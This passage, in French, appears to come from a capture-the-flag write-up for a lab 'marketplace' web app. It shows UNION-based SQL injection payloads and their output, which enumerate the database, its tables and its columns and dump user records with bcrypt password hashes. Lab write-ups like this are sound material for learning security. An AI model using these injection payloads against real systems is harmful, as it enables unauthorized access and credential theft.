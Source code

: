 ### Nom de la base de donnée

```sql
5 UNION SELECT "a",database(),"c","d" -- -

User marketplace
ID: a
Is administrator: true
```

### Nom des tables

```sql
5 UNION SELECT "a",group_concat(table_name),"c","d" FROM information_schema.tables WHERE table_schema="marketplace" -- -

User items,messages,users
ID: a
Is administrator: true
```

### Nom des colonnes

```sql
5 UNION SELECT "a",group_concat(column_name),"c","d" FROM information_schema.columns WHERE table_name="users" -- -

User id,isAdministrator,password,username
ID: a
Is administrator: true
```

### Dump les données

```sql
5 UNION SELECT "a",group_concat(id,":",isAdministrator,":",username,":",password),"c","d" from users -- -

User 1:0:system:$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW,
2:1:michael:$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q,
3:1:jake:$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG,
4:0:b0unce:$2b$10$.FVPYj2y8rHndOV.tXlLXOC3XMKhTuKpOqY1u4ReIeKfWKpZVBISu
```

Après avoir essayé de cracker les différents mot de passe des utilisateurs, ça n’a rien donné. Une table est restante, “messages”.

```sql
5 UNION SELECT "a",group_concat(column_name),"c","d" FROM information_schema.columns WHERE table_name="messages" -- -

User id,is_read,message_content,user_from,user_to
ID: a
Is administrator: true
```
